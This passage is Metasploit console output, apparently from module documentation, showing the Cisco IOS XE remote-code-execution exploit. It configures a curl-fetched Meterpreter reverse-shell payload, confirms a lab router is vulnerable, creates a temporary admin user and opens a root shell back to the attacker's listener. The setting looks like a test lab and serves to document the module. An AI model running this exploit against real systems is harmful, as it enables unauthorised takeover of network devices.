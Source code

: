 ```
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS             192.168.86.113   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT              443              yes       The target port (TCP)
   SSL                true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                               no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FETCH_COMMAND   CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE    false            yes       Attempt to delete the binary after execution
   FETCH_FILELESS  false            yes       Attempt to run payload without touching disk, Linux ≥3.17 only
   FETCH_SRVHOST                    no        Local IP to use for serving payload
   FETCH_SRVPORT   8080             yes       Local port to use for serving payload
   FETCH_URIPATH                    no        Local URI to use for serving payload
   LHOST           eth0             yes       The listen address (an interface may be specified)
   LPORT           4444             yes       The listen port


   When FETCH_FILELESS is false:

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_FILENAME      vsLOEPPqU        no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf exploit(linux/misc/cisco_ios_xe_rce) > check
[+] 192.168.86.113:443 - The target is vulnerable. Cisco IOS XE Software, Version 17.03.02
msf exploit(linux/misc/cisco_ios_xe_rce) > exploit 
[*] Started reverse TCP handler on 192.168.86.122:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Cisco IOS XE Software, Version 17.03.02
[*] Created privilege 15 user 'vTakCDWG' with password 'RJQHKnKK'
[*] Removing user 'vTakCDWG'
[*] Sending stage (3045380 bytes) to 192.168.86.113
[*] Meterpreter session 5 opened (192.168.86.122:4444 -> 192.168.86.113:56702) at 2025-03-03 20:31:39 +0000

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : testc100v
OS           :  (Linux 4.19.106)
Architecture : x64
```